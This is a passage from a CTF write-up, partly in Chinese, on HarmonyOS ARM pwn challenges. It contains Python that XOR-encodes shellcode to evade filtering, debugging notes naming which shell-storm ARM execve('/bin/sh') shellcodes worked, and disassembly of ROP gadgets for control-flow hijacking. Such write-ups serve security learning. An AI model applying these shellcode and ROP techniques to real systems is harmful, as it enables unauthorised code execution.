 As we all know, `a ^ key ^ key == a`, so we just do a bit-wide xor to the shellcode:

```python
key = 0xaa
shellcode_xor = b""

for i in shellcode:
    shellcode_xor += (i ^ key).to_bytes(1, 'little')
```

Thus we get the shell.

<img src="assets/image-20210701164736155.png" style="zoom:50%;" />

### Debug

1. harmshell不能用recv而是要用recvuntil，因为鸿蒙启动需要时间，这个时间会超过recv的timeout，因此还没进入camera_app，发送的shellcode是无效的
2. 除此之外，这次的环境不是Linux，使用的是CRLF，因此返回值是"give me something to get shell!\\r\\r\\n"而不是"give me something to get shell!\\n"
3. 不是所有shellcode都是能用的，我尝试的三种shellcode中，只有[Linux/ARM - execve(/bin/sh,NULL,0) - 31 bytes (shell-storm.org)](http://shell-storm.org/shellcode/files/shellcode-696.php)和[Linux/ARM - execve(/bin/sh, [0\], [0 vars]) - 27 bytes (shell-storm.org)](http://shell-storm.org/shellcode/files/shellcode-698.php)是可以的，[Linux/ARM - execve("/bin/sh", NULL, 0) - 34 bytes (shell-storm.org)](http://shell-storm.org/shellcode/files/shellcode-904.php)是无效的，感觉是因为第三个用的是拼接"/bin"和"/sh"的方法，因此改成"/bin/shell"后会出现问题
4. "/etc/flag.exe"会command not found，得先cd再执行

## 02_harmrop

### Stage 1: hijack control flow

Use "arm-linux-gnueabi-objdump" (binutils-arm-gnueabi) to disassemble the binary.

Find the `gift` in the assembly source with the help of `pwn.ELF`

```assembly
1154:	e92d4c1c 	push	{r2, r3, r4, sl, fp, lr}
1158:	e28db010 	add	fp, sp, #16

# printf("[ ] ...look at here");
116c:	e59f0048 	ldr	r0, [pc, #72]	; 11bc <_init-0x228>
1170:	e08f0000 	add	r0, pc, r0
1174:	eb0000b5 	bl	1450 <_fini+0x60>

# execve("/bin/ls\0", 0, 0);
1178:	e59f0040 	ldr	r0, [pc, #64]	; 11c0 <_init-0x224>
117c:	e3a01000 	mov	r1, #0
1180:	e3a02000 	mov	r2, #0
1184:	e08f0000 	add	r0, pc, r0
1188:	eb0000b4 	bl	1460 <_fini+0x70>

# __asm__ __volatile__();
118c:	e8bd000e 	pop	{r1, r2, r3}
1190:	e8bd8031 	pop	{r0, r4, r5, pc}
1194:	e8bd8007 	pop	{r0, r1, r2, pc}
1198:	e24dd010 	sub	sp, sp, #16
119c:	e49df004 	pop	{pc}		; (ldr pc, [sp], #4)
```
